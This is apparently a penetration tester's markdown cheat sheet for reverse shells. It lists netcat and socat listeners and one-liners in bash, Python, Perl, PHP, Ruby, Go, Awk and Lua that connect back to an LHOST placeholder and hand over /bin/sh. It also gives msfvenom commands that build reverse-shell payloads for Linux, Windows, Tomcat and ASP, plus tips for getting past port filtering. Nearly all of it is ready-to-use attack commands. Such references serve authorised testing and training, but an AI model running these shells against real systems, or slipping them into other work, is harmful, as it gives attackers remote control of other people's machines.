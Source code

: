 Created: 08/02/2021 10:58
Last modified: 11/02/2021 19:45

# References

- Get Reverse-shell via Windows one-liner: [Hacking Articles](https://www.hackingarticles.in/get-reverse-shell-via-windows-one-liner/)
- Reverse shell cheat sheets:
	- [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md): an awesome place to look for exotic shells
	- [HighOn.Coffee](https://highon.coffee/blog/reverse-shell-cheat-sheet/)
	- [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
- [php-reverse-shell.php](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

# General advices

- Don't forget to check for other shells than `sh` or `bash`: `ash`, `bsh`, `csh`, `ksh`, `zsh`, `pdksh`, `tcsh`. And so one, be creative.
- If your favorites `1234` or `1337` TCP ports don't work, try `80/tcp` or UDP ports as there's maybe filtering in place.

# Listeners

| Command | Description |
|---------|-------------|
| `nc -nlvp LPORT` | netcat on TCP |
| `nc -u -nlvp LPORT` | netcat on UDP |
| `socat -d -d TCP4-LISTEN:LPORT STDOUT` | socat (yes 2 `-d`'s) |

# Short One-liners

Replace `LHOST` with your IP and `LPORT` with your port. Don't forget to try **80/tcp** if you don't get your shell.

| Command | Description |
|---------|-------------|
| `nc -nv LHOST LPORT -e /bin/sh` | [Traditional netcat](http://www.stearns.org/nc/) |
| `ncat -nv LHOST LPORT -e /bin/sh` | [Nmap ncat](https://nmap.org/ncat//) |
| `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc LHOST LPORT >/tmp/f` | OpenBSD netcat (doesn't have `-e` switch) |
| `socat TCP4:LHOST:LPORT EXEC:/bin/sh` | [Socat](http://www.dest-unreach.org/socat/) |
| `/bin/bash -i >& /dev/tcp/LHOST/LPORT 0>&1` | Bash TCP, works with `sh` too |
| `/bin/bash -i >& /dev/udp/LHOST/LPORT 0>&1` | Bash UDP with listener `nc -u -lvp LPORT` |
| `0<&196;exec 196<>/dev/tcp/LHOST/LPORT; sh <&196 >&196 2>&196` | sh |

# Languages Specific

Python
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("LHOST",LPORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Perl
```
perl -e 'use Socket;$i="LHOST";$p=LPORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

PHP
```
php -r '$sock=fsockopen("LHOST",LPORT);exec("/bin/sh -i <&3 >&3 2>&3");'
```

Ruby
```
ruby -rsocket -e'f=TCPSocket.open("LHOST",LPORT).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

Golang
```
echo 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","LHOST:LPORT");cmd:=exec.Command("/bin/sh");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;http://cmd.Run();}'>/tmp/sh.go&&go run /tmp/sh.go
```

Awk
```
awk 'BEGIN {s = "/inet/tcp/0/LHOST/LPORT"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
```

Lua (linux only)
```
lua -e "require('socket');require('os');t=socket.tcp();t:connect('LHOST','LPORT');os.execute('/bin/sh -i <&3 >&3 2>&3');"
```

# Msfvenom generated 

Here the shell variables `lhost` and `lport` are set accordingly:
```bash
export lhost=$(ip address show tun0 | grep "inet " | awk '{print $2}' | cut -d "/" -f 1)
export lport=443
```

| Command | Description |
|---------|-------------|
| `msfvenom -p cmd/unix/reverse_netcat LHOST=$lhost LPORT=$lport` | netcat |
| `msfvenom -p linux/x86/shell_reverse_tcp LHOST=$lhost LPORT=$lport -f elf -o myshell` | Linux 32bits bin|
| `msfvenom -p linux/x64/shell_reverse_tcp LHOST=$lhost LPORT=$lport -f elf -o myshell` | Linux 64bits bin|
| `msfvenom -p java/jsp_shell_reverse_tcp LHOST=$lhost LPORT=$lport -f war -o myshell.war` | Tomcat |
| `msfvenom -p windows/shell_reverse_tcp LHOST=$lhost LPORT=$lport -f exe -o myshell.exe` | Windows bin |
| `msfvenom -p windows/shell_reverse_tcp LPORT=443 LHOST=$lport -f asp -o myshell.asp` | ASP |
